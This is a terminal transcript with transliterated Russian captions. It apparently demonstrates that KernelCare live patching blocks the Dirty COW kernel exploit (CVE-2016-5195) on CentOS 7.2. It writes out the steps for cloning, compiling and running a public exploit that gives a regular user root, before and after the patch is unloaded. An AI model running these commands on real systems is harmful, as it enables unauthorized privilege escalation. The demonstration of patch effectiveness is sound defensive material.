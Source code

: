\begin{lstlisting}
ETO CHISTIJ ISO CENTOS 7.2

[root@master ~]# cat /etc/redhat-release
CentOS Linux release 7.2.1511 (Core)
[root@master ~]# uname -r
3.10.0-327.el7.x86_64
[root@master ~]# su dcow
[dcow@master ~]$ id
uid=1000(dcow) gid=1000(dcow) groups=1000(dcow) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[dcow@master ~]$ git clone https://github.com/gbonacini/CVE-2016-5195.git
[dcow@master ~]$ cd CVE-2016-5195/
[dcow@master CVE-2016-5195]$ make
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
[dcow@master CVE-2016-5195]$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
[dcow@master CVE-2016-5195]$ su root
Password: dirtyCowFun
[root@master ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023


[root@master ~]# rpm -i http://patches.kernelcare.com/kernelcare-latest.el6.x86_64.rpm
[root@master ~]# /usr/bin/kcarectl --info
kpatch-state: patch is applied
kpatch-for: Linux version 3.10.0-327.el7.x86_64 (builder@kbuilder.dev.centos.org) (gcc version 4.8.3 20140911 (Red Hat 4.8.3-9) (GCC) ) #1 SMP Thu Nov 19 22:10:57 UTC 2015
kpatch-build-time: Mon Nov  7 17:08:08 2016
kpatch-description: 20;3.10.0-327.36.3.el7.x86_64
[root@master ~]# /usr/bin/kcarectl --update
Kernel is safe
[root@master ~]# /usr/bin/kcarectl --uname
3.10.0-327.36.3.el7.x86_64
[root@master ~]# /usr/bin/kcarectl --patch-info  | grep CVE-2016-5195 -A3 -B3
kpatch-name: 3.10.0/0001-mm-remove-gup_flags-FOLL_WRITE-games-from-__get_user-327.patch
kpatch-description: mm: remove gup_flags FOLL_WRITE games from __get_user_pages()
kpatch-kernel: >kernel-3.10.0-327.36.2.el7
kpatch-cve: CVE-2016-5195
kpatch-cvss: 6.9
kpatch-cve-url: https://access.redhat.com/security/cve/cve-2016-5195
kpatch-patch-url: https://git.kernel.org/linus/19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619

[root@master ~]# uname -r
3.10.0-327.el7.x86_64


PROVEROCHKA
[dcow@master CVE-2016-5195]$ ./dcow
Running ...
NE RABOTAET

4$/YEAR ZA 1 LICENZIUY

OTKLUYCHAEM
[root@master ~]# /usr/bin/kcarectl --unload
Updates already downloaded
KernelCare protection disabled, kernel might not be safe
[root@master ~]# su - dcow
Last login: Wed Dec  7 17:18:42 MSK 2016 on pts/0
[dcow@master ~]$ cd CVE-2016-5195/
[dcow@master CVE-2016-5195]$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)

\end{lstlisting}
\clearpage
